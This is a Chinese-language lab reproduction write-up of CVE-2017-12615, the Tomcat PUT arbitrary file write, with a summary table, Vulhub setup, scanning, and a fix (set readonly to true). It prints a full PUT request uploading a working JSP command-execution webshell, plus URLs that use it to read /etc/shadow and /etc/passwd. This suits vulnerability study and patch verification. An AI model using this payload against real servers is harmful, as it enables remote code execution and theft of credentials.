







# Tomcat_PUT方法任意写文件(CVE-2017-12615)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-12615                                               |
| 漏洞名称 | Tomcat_PUT方法任意写文件                                     |
| 漏洞评级 | 高危                                                         |
| 影响范围 | Tomcat版本：8.5.19                                           |
| 漏洞描述 | 漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件 |
| 修复方案 | 设置readonly为true                                           |

### 1.1、漏洞描述

当 Tomcat运行在Windows操作系统时，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为  false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP  文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限

### 1.2、漏洞等级

高危

### 1.3、影响版本

Tomcat版本：8.5.19

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/tomcat/CVE-2017-12615

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到Tomcat的Example页面




#### 2、漏洞扫描

nacs工具



nuclei工具




#### 3、漏洞验证

##### 工具扫描验证

通过`nuclei`工具扫出来的结果，验证漏洞存在

```
http://192.168.80.141:8080/poc.jsp?cmd=cat+%2Fetc%2Fshadow
```


```
http://192.168.80.141:8080/poc.jsp?cmd=cat+%2Fetc%2Fpasswd
```




```bash
http://192.168.80.141:8080/poc.jsp?cmd=whoami
```



##### POC

用burpsuite 进行抓包并做如下修改（GET请求改为PUT，修改名字,并在下面添加jsp的shell）

```python
PUT /6.jsp/ HTTP/1.1
Host: 192.168.80.141:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 667

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
 
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>


```





### 1.6、修复建议

设置readonly为true